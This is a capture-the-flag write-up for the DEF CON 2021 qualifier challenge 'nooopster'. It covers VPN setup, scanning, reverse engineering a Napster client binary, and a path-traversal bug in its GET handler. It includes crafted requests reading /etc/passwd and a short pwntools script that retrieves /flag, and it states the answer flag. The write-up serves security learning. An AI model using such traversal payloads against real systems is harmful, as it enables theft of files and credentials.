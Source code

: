 ```yaml
---
title: "DEF CON CTF Qualifier 2021"
categories: [Writeups]
layout: post 
---
```


# DEF CON CTF Qualifier 2021

## Team Placing: #93 / 433

### Solvers: This challenge and writeup was a collaborative effort between myself and my teammate, [Dayton Hasty (dayt0n)](https://github.com/dayt0n)
### Challenge: nooopster
### Category: PWN, RE 

## Description:

#### Sharing files like its 1999. Connect to my network with OpenVPN.
#### nooopster.challenges.ooo 1999

## Walkthrough:

We're provided an OpenVPN config file and key:

```bash
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 3
```

Initially the config file contained the wrong remote IP so we were having trouble connecting but with some sharp eyes from Dayton, we were able to replace the incorrect IP with `nooopster.challenge.ooo 1999`. This was eventually fixed by the challenge authors.

Using OpenVPN we can connect like so:

`sudo openvpn nooopster.ovpn`

Based off the OpenVPN config file we know that our local VPN endpoint is `192.168.5.2` and the remote VPN endpoint is `192.168.5.1`. So let's try running a nmap scan on `192.168.5.1`:

```bash
$ sudo nmap -sC -sV -oN nmap/initial 192.168.5.1

PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

Because nmap told us that this was a MLDonkey server, we initially tried connecting via netcat to see if we could supply MLDonkey commands; as well as downloading MLDonkey and other eDonkey clients. All of which didn't work for us.

After some time, we took a closer look at port `8888` and realized that it was actually the standard port for `Napster` which made a lot more sense given the challenge name `nooopster`. 

Doing some research we were able to find a linux napster client called [`Nap`](http://nap.sourceforge.net/). 

Downloading the i386 Debian package and installing like so:

```bash
$ sudo dpkg --add-architecture i386

$ sudo apt-get update

$ sudo dpkg -i nap_1.5.2-2_i386.deb
```

We can now connect to the Napster server like so `nap -s 192.168.5.1:8888`:

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.001.png)

After reading some [documentation](http://nap.sourceforge.net/userguide.html) we were able to list the channels with the `/clist` command which revealed a channel called `#chat`. Then we connected to the channel:

`/join #chat`

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.003.png)

There appeared to be a bot that repeatedly told us to check out his files. So let's do that! We can use the `/browse nooopster` command to see what files he has:

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.004.png)

Nice, that's a lot of 90s songs (which are actually all rickrolls). But if you continue scrolling there's one interesting file at the very end:

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.005.png)

So let's download it and run `file`:

```bash
$ file nooopster

nooopster: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=35b1628f65a3b5d518bc802d5cbe122bee0bf226, for GNU/Linux 3.2.0, stripped
```

Since this is an ELF binary, we will throw it into Binary Ninja and check out  `main()` (functions have been renamed for readability purposes):

![main function](/assets/img/writeups/DEFCONQuals2021/main_func1.png)

Knowing that napster is a peer-to-peer file sharing service, the `chdir("shared")` call lead us to believe that this was the binary for the client the `nooopster` user was using. 

It appears as though the initial connection is done with the first `do_connect()` and `send/recv_nap_msg()` call sequences. 

Let's check out that `pthread_create()` call:

![pthread_create](/assets/img/writeups/DEFCONQuals2021/pthread_create.png)

It appears that a new thread is being created that executes the `start_routine_1a80()` function, which starts out by creating a new socket and creating a new thread to handle the connections to the server:

![start_routine_1a80](/assets/img/writeups/DEFCONQuals2021/start_routine_1a80.png)

Now, we can take a look at the `start_routine()` function in the above `pthread_create()`:

![start_routine](/assets/img/writeups/DEFCONQuals2021/start_routine.png)

After digging around in the [napster protocol specification](http://opennap.sourceforge.net/napster.txt), we are able to get a better idea of what is going on here. This above code appears to be for use in handling file download requests. As the protocol specification states in section *5.1  Normal Downloading*, for each download request, a 'GET' string is sent. The code appears to check for that 'GET' string before processing the rest of the message. 

Scrolling down into the function, we find a simple logic vulnerability in this program: 

![vulnerability](/assets/img/writeups/DEFCONQuals2021/vuln.png)

After receiving the filename via the 'GET' command, the function checks to make sure the file path starts with `\shared\`. Then, since it assumes it is running in the `\shared\` directory already, it removes the `\shared\` portion of the path and processes everything after it as a file of its own. 

So, when we asked for the `nooopster` binary in the napster client, it sent a request to the vulnerable client that looked something like this:

```
GETdayt0n "\shared\nooopster" 0
```

We can take advantage of the fact that the vulnerable client processes everything after the `\shared\` string and download virtually any file on the remote client's system. To do this, we would need to send a request that looked like:

```
GETdayt0n "\shared\/etc/passwd" 0
```

This way, the program will attempt to open, read, and send the contents of the file at `/etc/passwd`.

The tricky part was actually triggering this bug in the first place. 

It appeared that in order for us to send our exploit and retrieve the flag, we not only had to connect to the Napster server, but we also had to first download a file manually through the Napster, such as the nooopster binary from before. We made a `check.py` script to ensure that we were able to send requests to the server after the manual download:

```python
from pwn import *

p = remote('192.168.5.1',7070)
print(p.recv())
p.sendline(r'GETducky "\shared\nooopster" 0')
p.interactive()
```

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.006.png)

Once we have confirmed that the server has responded to our requests, we just have to update the script to grab `/flag`:

```python
from pwn import *

p = remote('192.168.5.1',7070)
print(p.recv())
p.sendline(r'GETducky "\shared\/flag" 0')
p.interactive()
```

Running the script, we successfully retrieve the flag!

### Flag: OOO{M4573R_0F_PUPP375}